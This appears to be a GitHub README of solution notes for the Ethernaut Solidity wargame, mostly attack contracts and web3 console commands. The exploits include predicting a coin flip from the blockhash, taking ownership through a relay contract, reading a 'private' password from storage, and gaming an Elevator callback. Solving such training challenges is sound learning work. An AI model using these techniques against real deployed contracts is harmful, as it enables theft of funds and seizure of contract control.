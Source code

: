 # ethernaut-challenges

### challenge 1
await contract.contribute({value: toWei("0.000001")})

await contract.sendTransaction({value: toWei("0.000001")})

await contract.withdraw()

### challenge 2
Constructor spelled incorrectly


await contract.Fal1out({value: toWei("0.00000001")})

### challenge 3

```
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/contracts/utils/math/SafeMath.sol";

interface CoinFlip {
    function flip(bool) external;
}

contract Attack {
    address cF = 0x30C7A39F911f075F45434357af31Ec5aaA9828bb;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    uint256 public value;

    function attack() public returns (uint256){
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        CoinFlip(cF).flip(side);

        return blockValue;
    }
}
```

### challenge 4

```
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address) external;
}

contract Attack {
    address telephoneAddress = 0x0bDb4C476e8719Db25Baac7Ab796008023C5Ed3A;
    address myAddress = 0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88;

    function attack() public {
        Telephone(telephoneAddress).changeOwner(myAddress);
    }
}
```

### challenge 5

Underflow and has to be called by someone else

### challenge 6

await window.web3.eth.sendTransaction({
    from: '0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88',
    to: '0x601D70A2fFAC4C90A3D4c4931564EE3d857d39F8',
    data: '0xdd365b8b'
})


### challenge 8

This will give you the pass:

await window.web3.eth.getStorageAt(contract.address,1)

### challenge 10

classic reentracy attack in withdraw

### challenge 11

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Elevator {
    function goTo(uint _floor) external;
}

contract Attacker {
    uint256 public nn;

    function attack(address _address) external {
        Elevator elevator = Elevator(_address);
        elevator.goTo(22);

    }

    function isLastFloor(uint) external returns (bool) {
        if (nn % 2 == 0) {
            nn += 1;
            return false;
        } else {
            nn += 1;
            return true;
        }      
    }
}
```
